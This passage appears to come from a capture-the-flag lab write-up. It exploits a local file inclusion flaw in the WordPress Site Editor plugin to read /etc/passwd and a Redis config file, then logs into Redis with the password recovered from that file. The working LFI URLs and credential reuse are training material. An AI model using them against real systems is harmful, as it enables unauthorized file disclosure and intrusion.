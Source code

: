 ![image](https://user-images.githubusercontent.com/67879936/222600553-4980395d-a670-4d90-97ad-a85e3158bc7f.png)




<h2>Exploitation</h2>

Link to Exploit:https://www.exploit-db.com/exploits/44340

From this exploit there's something I want us to take a look at

![image](https://user-images.githubusercontent.com/67879936/222601462-a60dc797-7a81-4c0a-8606-dccaed6684c3.png)

The Proof of Concept gives us a link that will help in revealing the ```/etc/passd``` file

Link:http://192.168.53.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![image](https://user-images.githubusercontent.com/67879936/222602097-5487922f-cb27-4e0c-b979-f717dd4dd8b9.png)

cool, we can view the ```/etc/passwd``` file. If you recall there was a ```redis``` service running on port 6379, lets try to read the config file

Link:http://192.168.53.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf

![image](https://user-images.githubusercontent.com/67879936/222605012-7aaabf93-227a-45bf-a5dd-8033802b2b1d.png)

cool, I think we found a password ```Ready4Redis?```. We can use this password to log in to the redis service

>command: redis-cli -h 192.168.53.166

#To install redis-cli ```sudo apt-get install redis-tools```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/readys]
└─$ redis-cli -h 192.168.53.166                
192.168.53.166:6379> AUTH Ready4Redis?
OK
192.168.53.166:6379> info
# Server
redis_version:5.0.14
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:ddd3b1f304a7d4d5
redis_mode:standalone
os:Linux 4.19.0-18-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:8.3.0
process_id:460
run_id:f726c50d853e2c33955c1b4ae907e980ba9e8f29
tcp_port:6379
uptime_in_seconds:7093
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:83861
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

```